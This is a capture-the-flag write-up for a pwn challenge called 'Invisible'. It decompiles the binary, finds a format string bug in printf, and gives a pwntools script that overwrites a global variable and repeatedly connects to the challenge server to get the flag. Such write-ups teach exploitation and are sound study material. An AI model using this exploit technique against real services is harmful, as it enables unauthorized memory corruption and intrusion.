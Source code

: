 # 3- Invisible 
```
Medium: pwn, 300 pts
```

## Description
```
I'm here 👀👀👀
nc 51.38.37.81 1234
Flag: CTF_*
```

>For this challenge, we are entitled to a pwn. Before of course running the file to see what it does, let's open it with ghidra.
>But well before, let's see what kind of file we are dealing with.

`$ file invisible`

`invisible: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8226f97582f5dceed8f5322cacb7f48abdbad248, for GNU/Linux 3.2.0, not stripped`

>Now let's see what ghidra tells us about our binary. Only one interesting function apart from the main: print_flag.


- print_flag

```c

void print_flag(void)

{
  system("cat /home/ecowas/flag");
  return;
}

```
- main

```c

undefined8 main(void)

{
  time_t tVar1;
  char local_98 [140];
  int local_c;
  
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  local_c = rand();
  local_c = local_c % 0x32;
  memset(local_98,0,0x80);
  fgets(local_98,0x80,stdin);
  printf(local_98);
  if (local_c == 0x1b) {
    if (admin == 200) {
      print_flag();
    }
  }
  else {
    printf("Try again");
  }
  return 0;
}
```

>Obviously the print_flag function just displays the flag.
And the main then?
Two tricks catch our attention, two if conditions.
The first compares the local_c variable to 27 and the second compares the admin variable to 200.

>So for print flag, we have to match admin to 200 and local_c to 27. Small problem, we can't do it directly. It should be pointed out that the local_c is a (50 % rand).
>But thinking about it there is a problem with the printf function long before the two if conditions. 

There:

```c
  memset(local_98,0,0x80);
  fgets(local_98,0x80,stdin);
  printf(local_98); #bug here
```

> We are therefore dealing with an **ELF x64 - Format string bug**

>We propose a solution with pwntools and their module fmtstr.
A link to the doc <a href=http://docs.pwntools.com/en/stable/fmtstr.html>pwntools fmtstr</a>.
Our solution will consist in changing the value of admin and brute force the local_c so that it matches the 27 during the rand on the server.
>Now, we need to check if the data we give in the input is stored somewhere in the stack. To do that I give some bunch of characters and see if the data is printed when I print stack values with format specifiers.
>But before we must add execution right to the file

`$ chmod +x invisible`

And execute it.


<img src="File/invisible.png">

>Bingoooo 😌, we can now control the values on the stack from the 8th argument. We will now look for the address of the admin variable. To do this we will use `readelf`

`$ readelf -a ./invisible | grep admin`

The result:

<img src="File/readelf.png">

>We now have everything to write our exploit: the value to write, the address and the offset. 
>I specify that we must set the context on 64 bits. Below is the python code.

```python
from pwn import *
from time import sleep
context.arch = 'amd64'
for i in range(500):
	conn=remote('51.38.37.81',1234)
	payload=fmtstr_payload(8,{0x000000000040405c:200})
	conn.sendline(payload)
	print(conn.recvall())
	conn.close()
	sleep(0.1)
```

>It will depend on the server, i.e. the time to wait to match the local_c at 27. After a few minutes or seconds, we have our flag and we can therefore Ctrl+C (even if it is possible to add a line that does this in our exploit).
 
 
The flag: `CTF_14mpwnG047?943985030823`
